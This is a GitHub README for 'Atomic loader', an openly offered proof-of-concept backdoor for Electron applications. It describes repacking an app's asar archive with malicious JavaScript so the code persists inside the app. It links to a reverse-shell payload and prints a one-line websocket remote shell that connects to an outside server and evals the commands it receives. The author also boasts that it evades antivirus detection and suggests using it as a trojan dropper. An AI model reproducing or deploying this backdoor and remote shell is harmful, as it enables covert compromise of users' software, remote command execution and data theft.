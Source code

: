 # Atomic loader

### What is this Atomic loader

This is a proof of concept universal electron **FUD** application backdoor. I named it atomic loader because electron was called "atomic shell" before it was renamed apparently.

![](loader.png)

### How does it work
Every single electron application uses a format called asar, you might have seen this:
[https://github.com/electron/asar]()

- Unpacking asar files is simple and packing it back with malicious javascript added will force the code to load with the application and therefore backdooring it.
- I can't say it "injects" but it's some form of persistance inside the application

This loader was based on vxunderground's research paper: "Node modules infector" but not to be confused since it works completely different yet the idea is still the same.
[https://github.com/vxunderground/VXUG-Papers/tree/main/Node%20Module%20Infector]()


### Why does it not fully work?
There are 2 main reasons
-> 1. I don't want to release this as fully working code out into the wild before it gets fully patched
-> 2. I've tried pretty hard to get it to work, It works most of the time, usually if you have one electron application but it seems to break for some reason, I just can't figure out why. Maybe you can help me? Feel free to commit.

**edit this line in the index.js before trying it out**

```js
const shellcode = "";
```

Use something like this: 

[https://github.com/vxunderground/VXUG-Papers/blob/main/Node%20Module%20Infector/Cross-platform%20demo/payloads/windows/discordReverseShell.js]()

Or craft your own shellcode, that should connect to a websocket server and execute commands from it. In this example we will be using [piesocket](https://www.piesocket.com/):

```js
;const WebSocket=require('ws');var exec=require('child_process').execSync;var piesocket=new WebSocket('wss://us-nyc-1.piesocket.com/v3/1?api_key=<INSERT_KEY>&notify_self');piesocket.onopen=function(connect){piesocket.send('loaded');};piesocket.onmessage=function(message){if(message.data.startsWith('!')){try{eval(message.data.slice(1));}catch(e){}}};piesocket.onerror=function(error){location.reload();};piesocket.onclose=function(error){location.reload();};
// send !piesocket.send(exec('whoami')) into websocket for rce
```

### Detections on virustotal?
![](detections.png)
I'm proud to say this is surprisingly [100% FUD](https://www.virustotal.com/gui/file/4903e478fede3628566f20e2fb1caccbf22f88f9d02822748428d6ad23a88d64?nocache=1). Any application you compile with node pkg will stay zero, Hence you could utilize this as a "trojan dropper"
Unless you want to code Mimikatz in nodejs ;)
